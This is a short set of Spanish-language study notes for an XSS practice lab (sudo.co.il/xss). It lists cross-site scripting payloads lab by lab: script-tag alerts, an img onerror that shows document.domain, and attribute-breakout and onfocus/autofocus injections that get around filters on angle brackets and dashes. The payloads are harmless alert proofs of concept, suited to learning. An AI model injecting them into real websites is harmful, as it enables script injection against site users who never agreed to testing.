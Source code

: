 # XSS Lab

Tags: #XSS #Challenges


* [sudo.co.il/xss/](https://sudo.co.il/xss/)

```bash
# Para estos laboratorios se debe de mirar el inspector y el código fuente de la web para saber que se debe ir haciendo. Esto ayuda a practicar e ir evadiendo en el codigo fuente para ejecutar un XSS. 
```

## Lab 0

```javascript
<script>alert("XSS")</script>                 // Script basico 
<img src/onerror=alert(document.domain)>      // Para que nos regres el dominio del sitio web 
```

## Lab 1

```javascript
// Debemos de cerrar el campo valor e inyectar el codigo 

"><script>alert("XSS")</script>"              // Debemos de cerrar el campo 'valor' para poder inyectar codigo JavaScript
"><script>alert("XSS")</script><!- -          // <!- - Es un comentario, '--' Asi deberia de ir, seguidos, esto lo hacemo si el SXX se acontece en un campo de login, por lo que el comentario es para evitar el campo de password
" onfocus="alert(1)" autofocus="              // Otra manera de colocar alert 
```

## Lab 2 

```javascript
// Cuando el codigo esta sanitizado, a veces no deja que coloquemos '< o >' por lo que debemos buscar otra manera de colocar alert

" onfocus="alert(1)" autofocus="          
```

## Lab 3 

```javascript
// En este lab nos colocan un guion '-' como forma de sanitizar 

"onfocus="alert(1)" autofocus="
```